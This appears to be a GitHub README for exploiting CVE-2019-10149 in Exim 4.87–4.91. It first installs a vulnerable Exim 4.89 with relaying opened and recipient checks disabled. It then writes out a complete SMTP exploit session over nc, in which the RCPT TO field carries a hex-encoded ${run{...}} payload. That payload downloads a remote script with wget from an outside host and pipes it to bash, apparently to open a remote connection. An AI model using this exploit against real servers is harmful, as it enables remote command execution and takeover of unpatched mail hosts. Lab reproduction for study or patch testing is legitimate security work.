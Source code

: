 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
*[wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz]

Move into the extracted folder
*cd exim-4.89/

Copy and modify required config files
*sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

*cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
*sudo groupadd -g 31 exim 

*sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
*sudo apt-get update
*sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
*sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
*sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
*sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
*sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
*sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
*/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
*\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
*\t-c\ = -c
*\t\= space
*x20 = space
*x7C = |
*x2F = /
*x3A = :
*x2D = -
*x3E = >
*x26 = &
*x22 = "
*x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
*nc 192.168.0.168 25
 
Once we are connected we say HELO.
*helo localhost
*(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
*mail from:<>
*(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
*rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
*(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
*DATA
*Received: 1
*Received: 2
*Received: 3
*Received: 4
*Received: 5
*Received: 6
*Received: 7
*Received: 8
*Received: 9
*Received: 10
*Received: 11
*Received: 12
*Received: 13
*Received: 14
*Received: 15
*Received: 16
*Received: 17
*Received: 18
*Received: 19
*Received: 20
*Received: 21
*Received: 22
*Received: 23
*Received: 24
*Received: 25
*Received: 26
*Received: 27
*Received: 28
*Received: 29
*Received: 30
*Received: 31
*
*.

